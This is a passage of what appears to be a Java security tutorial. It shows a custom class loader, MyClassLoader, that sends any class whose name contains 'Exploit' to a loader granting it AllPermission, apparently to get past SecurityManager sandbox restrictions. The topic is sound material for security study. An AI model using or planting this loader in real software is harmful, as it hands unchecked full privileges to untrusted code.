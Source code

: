 ```java
            }
        });
    }
}
```

MyClassLoader.java

```java
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.nio.ByteBuffer;
import java.nio.channels.Channels;
import java.nio.channels.FileChannel;
import java.nio.channels.WritableByteChannel;
import java.security.*;
import java.security.cert.Certificate;

public class MyClassLoader extends ClassLoader {
    public MyClassLoader() {
    }

    public MyClassLoader(ClassLoader parent) {
        super(parent);
    }

    @Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        File file = getClassFile(name);
        try {
            byte[] bytes = getClassBytes(file);
            //在这里调用defineClazz，而不是super.defineClass
            Class<?> c = defineClazz(name, bytes, 0, bytes.length);
            return c;
        } catch (Exception e) {
            e.printStackTrace();
        }

        return super.findClass(name);
    }
    
    @Override
    public Class<?> loadClass(String name) throws ClassNotFoundException {
        if (name.contains("Exploit")) {
            return findClass(name);
        }
        return super.loadClass(name);
    }
    
    protected final Class<?> defineClazz(String name, byte[] b, int off, int len) throws ClassFormatError {
        try {
            PermissionCollection pc = new Permissions();
            pc.add(new AllPermission());

            //设置ProtectionDomain
            ProtectionDomain pd = new ProtectionDomain(new CodeSource(null, (Certificate[]) null),
                    pc, this, null);
            return this.defineClass(name, b, off, len, pd);
        } catch (Exception e) {
            return null;
        }
    }
```